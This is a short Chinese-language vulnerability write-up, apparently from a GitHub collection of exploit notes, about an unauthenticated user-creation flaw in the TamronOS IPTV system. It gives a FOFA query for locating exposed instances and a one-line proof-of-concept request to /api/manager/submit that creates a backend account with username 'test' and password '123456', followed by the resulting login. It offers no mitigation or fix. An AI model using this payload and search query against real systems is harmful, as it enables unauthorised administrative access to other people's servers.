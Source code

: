 # TamronOS IPTV系统 submit 任意用户创建漏洞

## 漏洞描述

TamronOS IPTV系统 /api/manager/submit 存在任意用户创建漏洞，攻击者通过漏洞可以任意用户创建进入后台

## 漏洞影响

```
TamronOS IPTV系统
```

## FOFA

```
app="TamronOS-IPTV系统"
```

## 漏洞复现

登录页面如下



![](./images/202202101926166.png)



漏洞POC为



```plain
/api/manager/submit?group=1&username=test&password=123456
```



![](./images/202202101926524.png)



```plain
user: test
pass: 123456
```



![](./images/202202101926288.png)